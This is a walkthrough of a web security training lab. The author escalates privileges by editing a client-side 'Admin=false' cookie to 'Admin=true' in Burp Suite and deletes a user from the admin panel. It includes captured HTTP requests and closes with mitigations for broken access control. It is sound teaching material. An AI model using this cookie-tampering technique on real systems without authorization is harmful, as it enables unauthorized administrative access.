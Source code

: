 # User role controlled by request parameter

<aside>
❓ This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

</aside>

In this post, I’ll walk through a vulnerability I encountered where a web application controls user roles via a modifiable client-side cookie. This misconfiguration allowed me to escalate privileges and perform administrative actions by simply altering a value in my browser.

The application included an admin panel located at `/admin`, and my goal was to gain access to that panel and delete a user named `carlos`.

---

## **Step 1: Logging In as a Regular User**

![image.png](User%20role%20controlled%20by%20request%20parameter/1f8432fc-cd8a-4c92-87be-ffc58fd77f7d.png)

I began by using Burp Suite’s Intercept feature to monitor the login process. The login request looked like this:

```bash
POST /login HTTP/2
Host: .web-security-academy.net
Cookie: session=TWRL33mm0Ww3VnpYjM6OPvSk1QqbmFPG
Content-Length: 68
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0afe00c00336638482ab8374004a0054.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afe00c00336638482ab8374004a0054.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=nQPNqJQmCqEZdtPlaqsf3hHDEZx9utE1&username=wiener&password=peter
```

After a successful login, the response included the following cookies:

```bash
GET /my-account?id=wiener HTTP/2
Host: .web-security-academy.net
Cookie: Admin=false; session=PWIckmIg1EuMTho9CKsUOSl2qC0a3Qwi
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0afe00c00336638482ab8374004a0054.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

The presence of the `Admin=false` cookie indicated that the application was relying on the client to indicate administrative status, something I knew I could potentially exploit.

---

## **Step 2: Verifying Access Control**

Next, I accessed the `/my-account?id=wiener` page and confirmed the cookie was being sent in the request:

```bash
GET /my-account?id=wiener HTTP/2
Host: <target>
Cookie: Admin=false; session=<value>
```

I was able to view the account page, but attempts to visit /admin with the Admin=false cookie were blocked.

---

## **Step 3: Escalating Privileges**

To test whether the role check was truly client-side, I manually edited the cookie in Burp Suite:

```bash
Cookie: Admin=true; session=<value>
```

I resent the request to /admin and it worked. I now had full access to the admin panel. This confirmed that the application was trusting the Admin cookie without any server-side verification.

![image.png](User%20role%20controlled%20by%20request%20parameter/8873f710-9d59-40a2-92f4-48745a313931.png)

---

## **Step 4: Deleting Carlos**

![image.png](User%20role%20controlled%20by%20request%20parameter/image.png)

Inside the admin interface, I found functionality to manage users. I selected the user carlos and executed the deletion command. The lab was completed successfully, and the vulnerability was confirmed.

---

## **Security Implications**

This issue stemmed from the server relying on client-side information to enforce access control. It’s a textbook example of [**Broken Access Control**](https://owasp.org/Top10/A01_2021-Broken_Access_Control/), one of the most critical risks in the OWASP Top 10.

---

## **Mitigations**

Based on what I observed, here are some best practices to mitigate such vulnerabilities:

1. **Never trust the client to enforce access control.** Always validate roles and permissions server-side.
2. **Use secure session management.** Role information should be stored on the server or securely embedded in tamper-proof tokens (e.g., signed JWTs).
3. **Validate every sensitive request.** Even if the client hides certain UI elements, the server must enforce all access restrictions independently.
4. **Perform regular security assessments.** Code reviews and penetration testing are essential for catching these kinds of flaws early.

---
